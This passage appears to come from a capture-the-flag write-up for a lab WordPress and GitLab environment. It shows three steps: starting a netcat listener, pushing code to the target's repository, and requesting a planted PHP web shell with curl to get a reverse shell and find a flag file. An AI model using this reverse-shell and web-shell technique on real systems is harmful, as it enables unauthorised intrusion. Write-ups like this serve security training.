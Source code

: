 ```shell
nc -nlvp 3001
```

> Send our code to server

```shell
git add .
git commit -m "adding some code to test"
git push git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git main
```
> Curl our shell. (j1v37u2k3y.php)

```shell
curl "http://wordpress.flag.net.internal/j1v37u2k3y.php"
```
There is a flag.txt in the directory

[![](/assets/images/sans/2022/4cb4c0d5.png)](/assets/images/sans/2022/4cb4c0d5.png)
